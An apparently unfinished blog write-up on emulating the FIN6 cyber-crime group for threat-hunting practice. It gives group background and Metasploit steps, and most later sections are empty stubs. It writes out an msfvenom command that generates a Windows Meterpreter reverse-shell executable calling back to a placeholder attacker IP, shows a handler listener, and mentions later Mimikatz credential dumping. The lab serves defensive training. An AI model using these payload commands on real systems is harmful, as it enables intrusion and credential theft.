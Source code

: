 ```yaml
---
title: FIN6 Adversary Emulation - Phase 1
date: 2023-08-02 09:23:59 +0800
categories: [Adversary Emulation, FIN6]
tags: [threathunt,metasploit]
---
```


## FIN6 Overview

FIN6 is thought to be a financially motivated cyber-crime group. The group has aggressively targeted and compromised high-volume POS systems in the hospitality and retail sectors since at least 2015. FIN6 has targeted e-commerce sites and multinational organizations. Most of the group’s targets have been located in the United States and Europe, but include companies in Australia, Canada, Spain, India, Kazakhstan, Serbia, and China.

## Step 1 - FIN6 Initial Access

### 1.1 - Phishing: Spearphishing Attachment [**T1566.001**](https://attack.mitre.org/techniques/T1566/001/) and via Service [**T1566.003**](https://attack.mitre.org/techniques/T1566/003/)

As FIN6 appears to be monetarily motivated, they take a pragmatic approach toward delivery. FIN6 has employed social engineering ala direct messages on LinkedIn, spear-phished, compromised e-commerce sites, and it has been suggested that they have negotiated or even purchased access to previously compromised networks. 

### 1.2 - C2 Framework

FIN6 has made use of CobaltStrike and Metasploit. For this demonstration, we'll create initial payload using Metasploit’s [**Msfvenom**](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html).

_MsfVenom_ is a combination of Msfpayload and Msfencode, putting both of these tools into a single Framework instance. The advantages of Msfvenom are:

One single tool
Standardized command line options
Increased speed

Msfvenom has a wide range of options available:

![]({{site.baseurl}}/assets/img/2023-08-02-FIN6 Adversary Emulation - Phase 1/2023-08-02-Metasploit_MsfVenom.png){:width="100%"}


### 1.3 - Generate Initial Access Payload 

To generate a payload, there are two flags that you must supply (`-p` and `-f`):

- The `-p` flag: Specifies what payload to generate
- The `-f` flag: Specifies the format of the payload

To see what payloads are available from Framework, you can do:

```bash
./msfvenom -l payloads
```

Below is the typical syntax to use msfvenom:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=[Attacker IP] lport=4444 -f exe -o /tmp/my_payload.exe
```

> In order to dump credentials with Mimikatz later in this lab, we need to use the x64 version of Windows Meterpreter TCP reverse shell
{: .prompt-info }

![]({{site.baseurl}}/assets/img/2023-08-02-FIN6 Adversary Emulation - Phase 1/2023-08-02-Metasploit_MsfVenom_Payload.png){:width="100%"}

### 1.4 - Generate Payload Handler

With our payload ready, we need a handler to accept the connection back from our target. We will use the `exploit/multi/handler` metasploit module.

Normally, you can use exploit/multi/handler this way:

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > 
```

## Step 2 - FIN6 Discovery

FIN6

## Step 3 - FIN6 Privilege Escalation

FIN6

## Step 4 - FIN6 Collection and Exfiltration

FIN6

## References

<https://www.offsec.com/metasploit-unleashed/msfvenom/>
